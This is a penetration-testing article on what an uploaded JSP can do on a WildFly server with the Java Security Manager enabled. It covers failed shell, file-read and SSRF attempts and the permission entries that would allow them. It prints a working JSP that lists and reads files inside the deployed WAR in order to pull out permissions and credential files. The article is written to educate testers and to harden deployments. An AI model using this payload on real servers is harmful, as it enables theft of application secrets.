# Beyond a Fly in the Wild

## The WildFly Puzzle: Beyond simple RCE

Can you really achieve Remote Code Execution (RCE) just by uploading a JSP to a WildFly server?\
The short answer: _sometimes_ — but more often, the reality is far more nuanced.

During web application penetration tests, I frequently encounter WildFly servers.\
Occasionally, I spot arbitrary file upload vulnerabilities, and the first thought is always the same:

> _**"Upload a JSP, drop a webshell, and get that easy RCE!"**_

In practice, things rarely work that way: files may upload successfully, yet the expected code execution often doesn’t happen. This discrepancy pushed me to dig deeper into WildFly itself. I wanted to understand what’s genuinely possible when deploying malicious files, and which protections the server enforces by design.

This article is the result of that exploration — a look at the challenges, the opportunities, and the insights that come from testing beyond the obvious RCE scenario, with hands-on operational tips and ideas that penetration testers can apply when dealing with WildFly.


**Note:** As of this writing, [JDK 24 has permanently disabled the legacy Security Manager framework](https://docs.oracle.com/en/java/javase/24/security/security-manager-is-permanently-disabled.html).\
Everything discussed in this article remains fully applicable to real-world deployments running Java 17 or earlier — a common scenario, as many applications continue to rely on older Java versions.


***

## Introduction to WildFly

**WildFly** is a fast, lightweight, and modular Java EE application server designed for building modern, enterprise-grade applications. Backed by Red Hat, it offers full Jakarta EE support, an easy setup process, and powerful management tools for both developers and operations teams. Whether you’re deploying microservices, running cloud-native workloads, or managing large enterprise systems, WildFly provides the perfect balance between flexibility, performance, and enterprise reliability.


This article provides only the **essential information needed** to understand the analysis in the following sections. To explore **WildFly in greater depth**, including its architecture, components, and advanced features, check out the **official WildFly documentation**: [https://docs.wildfly.org/](https://docs.wildfly.org/?utm_source=chatgpt.com)


***

### Deployment Structure

When developing and deploying Java Web Applications in WildFly, it’s important to understand the different **deployment modes**, **types of files** and **directory structures** that you can expect.

WildFly’s **latest release** (37, as of the time of writing this article) allows both a **standalone mode** and a **domain mode**:

1. **Standalone mode** is meant for running a single WildFly instance. It’s simple to use — just drop your WAR or EAR file into the deployments directory, and WildFly automatically detects and deploys it.
2. **Domain mode** is designed for managing multiple WildFly servers, often across different machines, as a single coordinated group. It’s useful for large-scale deployments where central management, configuration, and deployment synchronization are needed.


For the sake of clarity and ease of explanation, these sections focus on the **essential files and structure** needed for a simple WildFly **standalone deployment**. I won’t go over domain mode in detail, but if you want to dive deeper, check out the [official introduction](https://www.wildfly.org/news/2025/02/12/An-introduction-to-use-the-domain-mode-of-the-current-release-of-WildFly/) from the WildFly team.


#### **1. WAR (Web Application Archive) Files**

A **WAR file** is the most common way to package a Java web application.\
It’s essentially like a **ZIP archive** containing your application’s code, libraries, and resources. \
A typical WAR structure in WildFly _**standalone mode**_ looks like this:

```
myapp.war
├── META-INF/            # Metadata about the application
│   └── MANIFEST.MF      # Defines extension and package related data.
├── WEB-INF/             # Contains web application configuration
│   ├── web.xml          # Deployment descriptor
│   ├── classes/         # Compiled Java classes (e.g., servlets, beans)
│   └── lib/             # JAR libraries used by the app
├── index.jsp            # JSP files (views)
├── resources/           # Static content (CSS, JS, images)
```

Depending on the WildFly version in use, _**you may encounter different formats and locations for the deployment's permissions file**_. For example, some versions place it under **`META-INF/jboss-permissions.xml`**, while others use **`WEB-INF/permissions.xml`**.

Both serve the same purpose — defining the application’s Java runtime security permissions — though their exact naming and placement may vary slightly across WildFly versions and deployment types.


In the examples shown throughout this article (based on WildFly 37), the permissions are defined inside\
&#xNAN;**`META-INF/jboss-permissions.xml`**.


**Deployment:**\
In WildFly standalone mode, deploying is simple — **drop the WAR into the `standalone/deployments` directory**, or use the **management console**.

> In standalone mode, `jboss-permissions.xml` is **essential** if the **Java Security Manager** is enabled, as it defines the application’s **access control permissions**.\
> This topic is better explained in the sections ahead.

#### 2. JSP Files

**JSP (JavaServer Pages)** allow developers to embed Java code directly into HTML to create **dynamic content**. In WildFly, JSPs are **compiled into servlets** and executed by the JVM to generate responses sent to clients. During deployment, WildFly **unpacks the application archive (typically a WAR), verifies its contents, and sets up the runtime environment**, ensuring smooth interaction between web components, EJBs, and other modules.

#### 3. Servlets

**Servlets** are Java classes that handle **HTTP requests** and generate responses. While JSPs are primarily used for **presentation logic**, Servlets handle the **business logic.** In WildFly, servlets are **compiled and loaded at runtime** to process client requests efficiently.

During deployment, servlets are compiled and loaded at runtime. They are typically placed in the `WEB-INF/classes` directory or packaged inside JARs under `WEB-INF/lib`. WildFly then registers them based on their mappings, either defined in `web.xml` or via annotations such as `@WebServlet("/path")`.


While this section focuses on the **minimal structure for a simple WildFly standalone deployment**, Java web applications can include many other artifacts, such as **EARs, EJBs, and resource adapters**.\
To explore these in detail, check out the **official WildFly documentation**:\
[https://docs.wildfly.org/37/wildscribe/index.html](https://docs.wildfly.org/37/wildscribe/index.html)


***

### **Java Security Manager**

When enabled, WildFly integrates with the **Java Security Manager (JSM)** to enforce fine-grained access control over sensitive operations. Every attempt to perform actions like reading or writing files, opening network connections, modifying system properties, loading native libraries, using reflection, or executing processes is checked against a defined permission policy.

The Security Manager uses **stack-based inspection**, meaning it looks at every method in the current call chain: if any class in the stack lacks the required permission, the action is denied. This ensures that less-trusted code — for example, a malicious JSP — cannot exploit more privileged components.

By design, the Security Manager creates a **sandboxed environment** for deployed applications. In WildFly, this means applications do not access the host filesystem directly; instead, they operate within a **virtual file system (VFS)** managed by the server. This isolation prevents applications from reading or modifying files outside their deployment context, adding an additional layer of security.

<figure><figcaption><p>Source: https://www.deep-kondah.com/java-security-manager-is-getting-removed/</p></figcaption></figure>

In WildFly, permissions are typically declared **per deployment** via a **permissions file** inside the `WEB-INF/` or `META-INF/` directory. This allows each application to explicitly request only the permissions it needs. The result is a **least-privilege model** that reduces the attack surface and prevents privilege escalation between deployments.

By combining Java’s built-in access controls with WildFly’s deployment isolation and virtual file system, the Security Manager creates a **robust, fine-grained security layer**. This setup enforces **least-privilege principles**, making it essential for safely running untrusted or user-supplied code in enterprise environments.

***

## An Attacker's Perspective

Now that all the fundamental components of a typical application's WAR package are in place, we can present a compact, realistic web application that mirrors the structure and behavior of many real-world targets I’ve encountered during penetration tests.

The web application _**deliberately assumes the presence of an arbitrary file-upload vulnerability**_.\
The WildFly instance in this lab runs with the Security Manager enabled, meaning that uploads are subject to the JVM permission policy.

> _<mark style="color:$success;">**Want to try this yourself?**</mark>_
>
> _Clone the WildFly lab from its_ [_GitHub repository_](https://github.com/alessio-romano/WildFly-Research-Labs) _to reproduce the experiments shown below._

### The Basic Scenarios

Suppose that you can upload an arbitrary file to a web application: _what payloads should you try first?_\
Below are the basic scenarios attackers and testers typically consider — and why they usually fail when the Java Security Manager (using reasonable WildFly defaults) are in place.


All payloads used in the following examples can be found [here](https://github.com/alessio-romano/WildFly-Research-Labs/tree/master/JSPs)


#### 1) Uploading a JSP shell

Most of the times, the instinctive first attempt of an attacker is to quickly upload a JSP that acts as a web shell or spawns a reverse shell.

<figure><figcaption><p>Using Kali's cmdjsp payload shows no output</p></figcaption></figure>

As you can see, the uploaded web shell shows no output. An attacker will probably investigate further by editing the previous payload to manage the Java exceptions returned by the web application to understand what is happening under the hood.

<figure><figcaption><p>A better payload shows the web application's error, stating that it's not possible to execute system commands.</p></figcaption></figure>

In a WildFly instance running with the Java Security Manager enabled, reverse and web shells are effectively blocked: the JSM denies OS-level operations such as `Runtime.exec()` or `ProcessBuilder`, typically resulting in an exception, rather than a working shell.

Only when the Security Manager is disabled or a serious misconfiguration exists will a JSP-based shell result in true OS-level command execution.


WildFly prevents successful code execution even if a file is mistakenly granted the necessary `execute` permission inside the `permissions.xml` file. The only way to get RCE via `java.io.FilePermission` is to\
&#xNAN;_**also**_ give `<<ALL FILES>>`  execute permissions.


<pre class="language-xml" data-title="META-INF/jboss-permissions.xml (allowing RCE)" data-overflow="wrap"><code class="lang-xml">&#x3C;permission>
	&#x3C;class-name>java.io.FilePermission&#x3C;/class-name>
<strong>	&#x3C;name>&#x26;lt;&#x26;lt;ALL FILES&#x26;gt;&#x26;gt;&#x3C;/name> &#x3C;!-- notice you need &#x26;lt; and &#x26;gt; -->
</strong>	&#x3C;actions>execute&#x3C;/actions>
&#x3C;/permission>
</code></pre>

<figure><figcaption><p>Achieving RCE is only possible when ALL FILES are given execute permissions.</p></figcaption></figure>

#### 2) Exfiltrating Data and System Information

Aside from the obvious RCE scenario, an attacker might try exfiltrating data by **reading arbitrary files on the filesystem**, such as `/etc/passwd` (Linux) or `\Windows\System32\drivers\etc\hosts` (Windows).

<figure><figcaption><p>File system access is denied unless explicitly allowed</p></figcaption></figure>

This also does not typically work, as you need the permissions file to explicitly allow read or write access to the specific file on the filesystem. Remember that WildFly runs applications using a Virtual File System (VFS), meaning that the application cannot directly interact with files outside the VFS unless the server is explicitly configured to allow it.

<pre class="language-xml" data-title="META-INF/jboss-permissions.xml (allowing file read)"><code class="lang-xml">  &#x3C;permission>
    &#x3C;class-name>java.io.FilePermission&#x3C;/class-name>
<strong>    &#x3C;name>/etc/hosts&#x3C;/name>
</strong>    &#x3C;actions>read&#x3C;/actions>
  &#x3C;/permission>
</code></pre>

<div align="left"><figure><figcaption><p>File system access is allowed when explicitly stated in the jboss-permissions file</p></figcaption></figure></div>

Another idea is to try enumerating system information and environment variables used by the server. Most of the times, as for the previous cases, this attempt will not work, unless some serious misconfigurations are in place.

<figure><figcaption><p>The JSM typically denies access to system properties and environment information</p></figcaption></figure>

<pre class="language-xml" data-title="META-INF/jboss-permissions.xml (allowing system enumeration)"><code class="lang-xml">    &#x3C;!-- Allow reading the current environment information -->
    &#x3C;permission>
         &#x3C;class-name>java.lang.RuntimePermission&#x3C;/class-name>
<strong>         &#x3C;name>getenv.*&#x3C;/name>
</strong>         &#x3C;actions>execute&#x3C;/actions>
    &#x3C;/permission>

   &#x3C;!-- Allow reading system properties -->
    &#x3C;permission>
<strong>        &#x3C;class-name>java.util.PropertyPermission&#x3C;/class-name>
</strong>        &#x3C;name>*&#x3C;/name>
        &#x3C;actions>read,write&#x3C;/actions>
    &#x3C;/permission>
</code></pre>

<figure><figcaption><p>In rare cases, access to system properties and environment information is explicitly allowed.</p></figcaption></figure>

#### 3) Accessing other systems via SSRF

An attacker can also try to enumerate internal services by uploading a JSP that makes the server issue requests to internal endpoints.

<figure><figcaption><p>The JSM denies any process from opening a socket</p></figcaption></figure>

By default, the JSM blocks any process from creating new socket connections, so SSRF attempts often fail. Still, _**many real-world deployments are configured to allow outbound sockets**_ so the webapp can reach internal APIs or backend services.

<pre class="language-xml" data-title="META-INF/jboss-permissions.xml (allowing SSRF)"><code class="lang-xml">    &#x3C;permission>
        &#x3C;class-name>java.net.SocketPermission&#x3C;/class-name>
        &#x3C;name>*&#x3C;/name> &#x3C;!-- You may find a single specific address here -->
<strong>        &#x3C;actions>connect,resolve&#x3C;/actions>
</strong>    &#x3C;/permission>
</code></pre>

<figure><figcaption><p>It is not uncommon to find a web application configured to allow outbound sockets</p></figcaption></figure>


**Reminder**\
Wildfly exposes an admin console (requiring basic auth) on `http://127.0.0.1:9990/management`&#x20;

While there exist no default credentials, you can find encrypted credentials inside the _**/configuration/mgmt-users.properties**_ and _**/configuration/mgmt-groups.properties**_ files in both the _**/standalone**_ and _**/domain**_ directories.

With that said, having access to these files is pretty hard, unless some serious misconfigurations are in place.


***

### Finding a Way around the JSM&#x20;

The analysis and scenarios discussed so far show that, when the Java Security Manager (JSM) is active and correctly configured, bypassing its protections is non-trivial, unless the environment is heavily misconfigured.

A closer inspection reveals a less obvious and more subtle attack surface: every deployed package (WAR, in this case) must be able to read and operate on its _own_ files by design.\
This requirement creates a minimal, unavoidable trust boundary inside the JVM that the JSM does not (and cannot) remove without breaking the application itself.

Because the application legitimately needs that "self-access", an attacker who can place code inside the deployment (via an arbitrary file upload vulnerability) can often interact with exactly the resources the application already uses, and do so in ways that remain _within_ the permissions the JSM grants.

In practice this means that attackers may shift focus from trying to defeat global sandboxing to abusing application logic and in-context capabilities to exfiltrate the war package's data.

### WAR-confined Path Traversal

The JSP below demonstrates a simple payload that performs path traversal **only inside the deployed WAR** and succeeds without alarming the Java Security Manager.

The JSP was intentionally written to be minimal by only using basic, allowed operations: it only requires two GET parameters (`action` and `dir`) to build a path anchored to the webapp’s deployment root to list a directory's contents or read a file's content.


```java
<%
try {
    String action = request.getParameter("action");
    String dir = request.getParameter("dir");

    if (action == null || dir == null) {
        out.println("Specify action=read or action=list, and dir parameter");
        return;
    }

    java.io.File f = new java.io.File(application.getRealPath("/") + "/" + dir);

    if ("read".equals(action)) {
        if (f.exists() && f.isFile()) {
            java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader(f));
            String line;
            out.println("<pre>");
            while ((line = br.readLine()) != null) {
                out.println(line);
            }
            out.println("</pre>");
            br.close();
        } else {
            out.println("File not found or not readable.");
        }
    } else if ("list".equals(action)) {
        if (f.exists() && f.isDirectory()) {
            out.println("<pre>");
            for (java.io.File fi : f.listFiles()) {
                out.println(fi.getName());
            }
            out.println("</pre>");
        } else {
            out.println("Directory not found or not readable.");
        }
    }
} catch (Exception e) {
    out.println("Error: " + e.getMessage());
}
%>

```


The reasoning behind this JSP is simple: a WAR-packaged web application must be able to read its own files to properly function. The payload leverages that implicit guarantee: instead of attempting forbidden actions, it sticks to the minimal capabilities the app already has.

In practice, that means an uploaded JSP can access any resource the WAR can legitimately read.\
This is not a failure of the JSM itself but an inevitable consequence of granting the application the privileges it needs to operate.

<details>

<summary>Technical Analysis &#x26; More Details</summary>

When the JSP is ran, it is executed as code loaded by the webapp’s classloader and therefore runs inside the WAR’s _protection domain_. Every sensitive operation triggers a JSM check that evaluates the **PermissionCollection** associated with that protection domain.

The payload only invokes file read/list APIs, so the JVM invokes the file permission checks `SecurityManager.checkRead(path)` when constructing a `FileInputStream`/`FileReader`, and the equivalent list/read checks when calling `File.exists()`, `isDirectory()` or `listFiles()`.

Crucially, the payload anchors paths with `application.getRealPath("/")`, so it constructs absolute paths that resolve to the on-disk deployment root or the container’s VFS extract path.

The SecurityManager matches the _runtime resolved path_ against the permission entries, not the original request string, so canonicalization and symlink resolution matter: the JVM typically resolves the path to an absolute/canonical form before matching, which means `../` segments and symlinks are resolved by the filesystem prior to permission evaluation.

Because the WAR must be granted read access to its own files, a path under that resolved root will commonly match an allowed FilePermission, allowing traversal and reads that stay within that root.

From an API perspective, note that `new File(...)` does not itself trigger a permission check.\
Checks occur when the code tries to actually access the filesystem (e.g. `new FileReader(f)` → `FileInputStream` → `checkRead(path)`).&#x20;

</details>


**This is a privilege abuse rather than a JSM bypass.**\
A true bypass would allow the JSP to perform actions the policy explicitly forbids.\
Here the JSP performs actions the policy _permits, e.g. the_ JSM does its job by only permitting allowed actions.


***

## Putting the Payload to Work

By uploading the previously shown payload, an attacker can easily access a WAR package's contents.

<figure><figcaption><p>Accessing the WAR package's contents</p></figcaption></figure>

An attacker can actually leverage the JSP to enumerate the application's custom permissions defined in the `META-INF/jboss-permissions.xml` file. In this specific case, the application's only misconfiguration is to allow arbitrary file uploads inside the `/uploads` directory.\
Also notice that execute permissions are _not_ required to allow the JSP to work.

By enumerating the `jboss-permissions.xml` file, an attacker may actually find misconfigurations which could allow further attacks, such as those shown in the scenarios previously discussed.

<figure><figcaption><p>Reading the jboss-permissions file</p></figcaption></figure>


_**Notice:**_\
Even if the permissions file contains no explicit read/write entries, the WAR will still be able to read its own deployed files because that access is implicit and required for the application to run.\
Of course, those permissions (shown below) would not allow file uploads inside the WAR.


<figure><figcaption><p>Read access is implicitly allowed</p></figcaption></figure>

Finally, some applications may contain configuration files such as application.properties, which often hold credentials, API keys, and other settings. Those files may be packaged inside the WAR or kept externally and granted to the app via the permissions file.


You can also enumerate the application classpath and bundled libraries, dump class files and JARs to inspect their contents in order to discover hard-coded secrets, internal endpoints, queries, JNDI names and so on.


<figure><figcaption><p>Reading the application properties file</p></figcaption></figure>

#### Final Considerations

This article does not try to claim a sensational zero-day or anything of that kind.\
The goal is to share practical ideas to think outside the box: always think about the potential attack vectors considering the nature and the structure of the asset you are testing, not only on the class of vulnerabilities you are facing. Thinking about the ways to move around the application defenses without having to build overly complex bypasses is sometimes the key to success.&#x20;

***

## Key Insights

Given the presence of an arbitrary file upload vulnerability that allows at least a JSP to be deployed, some level of impact is always achievable in WildFly, regardless of the server’s configuration. This is due to the fundamental design of Java EE deployments: each package—whether a WAR, EAR, or JAR—must have access to its own files in order to operate correctly.

Even when WildFly is running in standalone mode with a sandboxed virtual file system and strict permissions defined via `jboss-permissions.xml`, the deployed application inherently requires **read access to its own deployment directory and internal resources**. This necessity creates a minimal but unavoidable surface that can be exploited.&#x20;

This highlights a key principle in security testing: **any mechanism that grants code access to its own files can potentially be exploited**, even under restrictive settings. While WildFly’s security model and the Java Security Manager prevent arbitrary OS-level actions or unrestricted file access, the need for self-access means attackers can still leverage the application environment in meaningful ways.

Understanding this is crucial for both penetration testers and developers seeking to harden deployments. It provides a realistic view of risk whenever file uploads are allowed and emphasizes the importance of defenses such as strict input validation, minimal permissions, and runtime monitoring.

Finally, even though the Java Security Manager is officially deprecated, the findings of this analysis remain relevant, as many WildFly-based applications still rely on older Java versions in production environments.

***

## References

#### WildFly

* [https://docs.wildfly.org/37/Getting\_Started\_Guide.html](https://docs.wildfly.org/37/Getting_Started_Guide.html#wildfly---a-quick-tour)
* [https://docs.wildfly.org/37/wildscribe/index.html](https://docs.wildfly.org/37/wildscribe/index.html)
* [https://www.wildfly.org/news/2025/02/12/An-introduction-to-use-the-domain-mode-of-the-current-release-of-WildFly/](https://www.wildfly.org/news/2025/02/12/An-introduction-to-use-the-domain-mode-of-the-current-release-of-WildFly/)
* [https://www.tothenew.com/blog/introduction-to-wildfly/](https://www.tothenew.com/blog/introduction-to-wildfly/)&#x20;
* [https://stackify.com/tomcat-vs-jetty-vs-glassfish-vs-wildfly](https://stackify.com/tomcat-vs-jetty-vs-glassfish-vs-wildfly)

#### Java Security Manager

* [https://docs.oracle.com/javase/8/docs/api/java/lang/SecurityManager.html](https://docs.oracle.com/javase/8/docs/api/java/lang/SecurityManager.html)
* [https://www.deep-kondah.com/java-security-manager-is-getting-removed/](https://www.deep-kondah.com/java-security-manager-is-getting-removed/)
* [https://docs.oracle.com/en/java/javase/24/security/security-manager-is-permanently-disabled.html](https://docs.oracle.com/en/java/javase/24/security/security-manager-is-permanently-disabled.html)

#### Other

* [https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp)
* [https://github.com/alessio-romano/WildFly-Research-Labs/](https://github.com/alessio-romano/WildFly-Research-Labs/)

